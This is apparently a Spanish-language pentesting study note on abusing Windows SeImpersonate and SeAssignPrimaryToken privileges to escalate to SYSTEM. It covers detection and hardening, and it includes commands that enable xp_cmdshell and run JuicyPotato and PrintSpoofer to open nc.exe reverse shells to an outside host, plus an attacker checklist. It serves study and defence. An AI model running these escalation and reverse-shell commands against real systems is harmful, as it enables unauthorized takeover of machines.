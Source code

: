 # SeImpersonate y SeAssignPrimaryToken

## Introducción

El sistema Windows representa la identidad de cuentas y procesos mediante **tokens de acceso** (Access Tokens). Dos privilegios críticos relacionados con la reutilización o asignación de tokens son **SeImpersonatePrivilege** y **SeAssignPrimaryTokenPrivilege**. Ambos permiten a procesos con los derechos adecuados actuar con el contexto de otros usuarios y, si se abusan en entornos no endurecidos, posibilitan escaladas locales a NT AUTHORITY/SYSTEM.

---

## Definición / Concepto

* **SeImpersonatePrivilege**: "Impersonate a client after authentication" — permite a un proceso (o hilo) **impersonar** a un cliente autenticado (usar su token de impersonación) para acceder a recursos en nombre de ese cliente.
* **SeAssignPrimaryTokenPrivilege**: "Replace a process level token" — permite crear o asignar **tokens primarios** a procesos (por ejemplo, usar CreateProcessAsUser) y es más restrictivo.

Diferencia práctica:

* *Impersonation token* suele estar asociado a un thread y se usa para actuar temporalmente como el cliente.
* *Primary token* se asigna a un proceso entero y permite crear procesos enteros bajo esa identidad.

---

## Contexto de abuso (por qué es relevante)

* Servicios que atienden conexiones de cliente (IIS, SQL Server, servicios RPC/COM) a menudo necesitan impersonar al usuario que realiza la petición para acceder a recursos (shares, bases de datos, otros servicios). Por ello, las cuentas de estos servicios a veces tienen SeImpersonate habilitado.
* Si obtenés ejecución en el contexto de uno de esos servicios (por ejemplo, nt service/mssql$..., IIS APPPOOL/defaultapppool), la presencia de SeImpersonate o SeAssignPrimaryToken puede permitir una escalada rápida a SYSTEM.

---

## Ejemplo de explotación (JuicyPotato / PrintSpoofer — flujo resumido)

1. Obtener RCE en contexto de un servicio (ej.: xp_cmdshell en SQL, web shell en IIS, Jenkins RCE).
2. Confirmar la cuenta del proceso: whoami (ej. nt service/mssql$sqlexpress01).
3. Comprobar privilegios: whoami /priv → comprobar SeImpersonatePrivilege o SeAssignPrimaryTokenPrivilege.
4. Subir herramienta de explotación (JuicyPotato.exe, PrintSpoofer.exe, nc.exe).
5. Ejecutar herramienta apuntando al CLSID/puerto COM apropiado y al payload (reverse shell).
6. Si tiene éxito, obtendrás un shell como NT AUTHORITY/SYSTEM.

---

## Comandos y ejemplos prácticos

* Comprobar identidad y privilegios:

  ```cmd
  whoami
  whoami /priv
  ```

* Habilitar xp_cmdshell (ejemplo con Impacket mssqlclient):

  ```sql
  EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
  ```

* Ejecutar JuicyPotato (ejemplo):

  ```cmd
  JuicyPotato.exe -l 53375 -p C:/Windows/System32/cmd.exe -a "/c C:/tools/nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
  ```

* Ejecutar PrintSpoofer (ejemplo):

  ```cmd
  PrintSpoofer.exe -c "C:/tools/nc.exe 10.10.14.3 8443 -e cmd.exe"
  ```

> Observación: JuicyPotato no funciona en builds recientes de Windows; en esos casos probar PrintSpoofer, RoguePotato u otras variantes.

---

## Detección (artefactos y logs)

* **Windows Security Event Log**:

  * 4624 / 4634 (logons), 4688 (creación de procesos) — buscar procesos inusuales creados por servicios.
* **Sysmon**:

  * EventID 1 (ProcessCreate): procesos hijos anómalos de servicios (ej. w3wp.exe -> cmd.exe).
  * EventID 10 (ProcessAccess): accesos entre procesos que indican token stealing.
  * EventID 3 (NetworkConnect): conexiones reversas (nc.exe).
* **EDR**: llamadas a APIs sensibles (CreateProcessWithTokenW, CreateProcessAsUser) y creación de procesos con tokens distintos deben alertar.
* Revisar named pipes y endpoints COM/RPC que estén siendo escuchados por procesos no habituales.

---

## Mitigaciones y hardening

* **Eliminar los privilegios** SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege de cuentas que no los necesiten (Local Security Policy -> User Rights Assignment o GPO).
* Ejecutar servicios con cuentas con menor privilegio (service accounts con permisos mínimos).
* Separar responsabilidades: no usar la misma cuenta para múltiples servicios críticos.
* Habilitar PPL / LSASS protections y tecnologías como Credential Guard cuando aplique.
* Implementar Sysmon + EDR con reglas que detecten procesos creados desde servicios y uso de APIs de token.
* Application whitelisting y bloqueo de ejecución de binarios no autorizados en servidores críticos.

---

## Checklist

* [ ] Obtener RCE en contexto de servicio.
* [ ] whoami y whoami /priv.
* [ ] Subir herramienta de explotación compatible con la versión de Windows objetivo.
* [ ] Intentar JuicyPotato → si falla, probar PrintSpoofer / RoguePotato / alternativas.
* [ ] Si obtienes SYSTEM, documentar evidencia y limpiar artefactos en entorno de laboratorio.

---

## Notas finales y recursos

* JuicyPotato, PrintSpoofer y RoguePotato son ejemplos públicos; su efectividad depende de la build de Windows.
* Consulta documentación técnica sobre tokens y las APIs CreateProcessWithTokenW, CreateProcessAsUser para profundizar.
* Siempre trabajar en entornos controlados y con autorización.

---

*Fin.*
